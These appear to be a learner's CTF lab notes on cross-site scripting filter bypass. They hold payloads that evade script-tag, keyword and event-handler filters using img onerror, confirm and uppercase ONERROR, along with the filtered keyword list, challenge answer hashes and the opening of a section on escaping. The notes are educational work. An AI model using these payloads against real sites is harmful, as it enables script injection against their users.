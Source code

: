 
1. Bypass the filter that removes any script tags.

*payload:* `<img src=x onerror=alert('Hello');>`

![[Pasted image 20210612113149.png]]
*ANSWER:* 3c3cf8d90aaece81710ab9db759352c0


2. The word alert is filtered, bypass it.

*payload:* `<img src="blah" onerror=confirm("Hello") />`

![[Pasted image 20210612113530.png]]

*ANSWER:* a2e5ef66f5ff584a01d734ef5edaae91

3. The word hello is filtered, bypass it.

*payload:*`<img src="blah" onerror=alert("HHelloello") />`

![[Pasted image 20210612113701.png]]





Filtered in challenge 4 is as follows:

-   word "Hello"
-   script
-   onerror
-   onsubmit
-   onload
-   onmouseover
-   onfocus
-   onmouseout
-   onkeypress
-   onchange

*payload:*`<img src="blah" ONERROR="alert('HHelloello')" />`

![[Pasted image 20210612113836.png]]

*ANSWER:* 2482d2e8939fc85a9363617782270555


### TASK 9: Protection Methods & Other Exploits

**Protection Methods**

There are many ways to prevent XSS, here are the 3 ways to keep cross-site scripting our of your application.

1.  Escaping - Escape all user input. This means any data your application has received  is secure before rendering it for your end users. By escaping user input, key characters in the data received bu the web age will be prevented from being interpreter in any malicious way. For example, you could disallow the < and > characters _from being rendered_.  
      